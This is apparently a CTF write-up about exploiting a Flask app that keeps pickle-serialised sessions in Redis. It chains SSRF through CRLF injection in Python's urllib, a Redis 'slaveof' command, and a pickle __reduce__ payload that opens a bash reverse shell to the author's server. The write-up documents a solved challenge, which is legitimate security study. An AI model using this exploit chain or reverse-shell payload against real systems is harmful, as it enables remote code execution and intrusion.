 ```python
        self.redis.setex(self.prefix + session.sid, val,
                         int(redis_exp.total_seconds()))
        response.set_cookie(app.session_cookie_name, session.sid,
                            expires=cookie_exp, httponly=True,
                            domain=domain)
```

so there seems to be two vulnerabilities:
* `RedisSessionInterface` uses pickle as serializer
  * code execution is here! (if I could inject arbitrary data into redis db)
* no check on `url` parameter on `load_cache`
  * this is vulnerable to SSRF

so roughly solution is do SSRF against redis with `urllib` and inject picked code into redis db.  
Let's check whether redis is vulnerable against SSRF or not. In python urllib, just injecting `\r\n` doesn't work. I've found issue at [CRLF Injection in httplib](https://bugs.python.org/issue30458) and found that `\r\n[SPACE]` still works.

```python
urllib.urlopen("http://[MY_SERVER_IP]\r\n Injected: header\r\n :10080").read()
```

```
GET / HTTP/1.0
Host: [MY_SERVER_IP]
 Injected: header
 :10080
User-Agent: Python-urllib/1.17
Accept: */*
```
(One thing annoyed me was this exploit doesn't work on macOS :(

Trying `slaveof` commands on redis, I got `PING` from redis server!  
`http://127.0.0.1\r\n slaveof [MY_SERVER_IP] 10080\r\n :6379`  
```
Connection from ec2-13-125-188-166.ap-northeast-2.compute.amazonaws.com 41614 received!
PING
```
(this command makes the application 500 but restored soon, sorry for temporary unavailability...

So everything is ready to exploit! Only remaining is prepare payload to inject.
I checked locally and found the session is picked and base64 encoded `{'url': '[URL]'}` (dict).
Of course pickle supports nested object so exploit is generated by following code:
```python
import pickle

class RCE(dict):
    def __reduce__(self):
        return (__import__('os').system, ('bash -c "bash -i >& /dev/tcp/[MY_SERVER_IP]/10080 0>&1"', ))

rce = {'url': '', 'a': RCE()}

payload = base64.b64encode(pickle.dumps(rce))
```
